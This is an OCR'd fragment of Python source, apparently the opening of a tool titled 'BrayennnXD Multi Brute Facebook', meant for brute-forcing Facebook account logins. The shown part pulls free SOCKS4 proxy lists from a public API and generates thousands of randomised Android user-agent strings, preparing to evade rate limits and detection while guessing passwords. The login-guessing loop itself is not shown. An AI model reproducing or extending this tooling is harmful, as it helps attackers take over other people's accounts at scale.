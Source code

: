  opsi=[] 
 uidf=[] 
 liu=[] 
 console = Console() 
 ses=requests.Session() 
 id,id2,loop,ok,cp,akun,oprek,lisensiku,tokenku,uid,lisensikuni,method,pwpluss,pwnya= [],[],0,0,0,[],[],[],[],[],[],[],[],[] 
 ugen2,ugen,dia,cokbrut,dump,memek,ualu,ualuh,lisensikuni,lisensiku,princp=[],[],[],[],[],[],[],[],[],[],[] 
 sys.stdout.write('\x1b]2; BMBF | BrayennnXD Multi Brute Facebook\x07') 
 #------------------[ USER-AGENT ]-------------------# 
 try: 
         prox= requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=80000&country=all&ssl=all&anonymity=all').text 
         open('.prox.txt','w').write(prox) 
 except Exception as e: 
         print(' [+] Koneksi Internet Anda Tidak Terdeteksi Silahkan Cek Kuota Anda Ya Salam Dari BrayennnXD');exit() 
 prox=open('.prox.txt','r').read().splitlines() 
 for xd in range(10000): 
         a='Mozilla/5.0 (Linux; U; Android 7.1.2;' 
         b=random.randrange(1, 9) 
         c=random.randrange(1, 9) 
         d='Redmi 4A Build/N2G47H)' 
         e=random.randrange(100, 9999) 
         f='AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/61.0.3163.128' 
         g=random.randrange(1, 9) 
         h=random.randrange(1, 4) 
         i=random.randrange(1, 4) 
         j=random.randrange(1, 4) 
         k='Mobile Safari/537.36 XiaoMi/Mint Browser/1.3.3' 
         uaku=(f'{a}{b}.{c} {d}{e}{f}{g}.{h}.{i}.{j} {k}') 
         ugen2.append(uaku) 
  
         aa='Mozilla/5.0 (Linux; Android 6.0.1;' 
         b=random.choice(['4.3','5.0','7.0','8.1.0','9','10','11','12','13']) 
         c='Redmi 4A Build/MMB29M; wv)' 
         d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z']) 
         e=random.randrange(1, 999) 
         f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z']) 
         g='AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/' 
         h=random.randrange(73,100) 
         i='0' 
         j=random.randrange(4200,4900) 
         k=random.randrange(40,150) 
         l='Mobile Safari/537.36 hola_android' 
         uaku2=f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}' 
         ugen.append(uaku2) 
  
  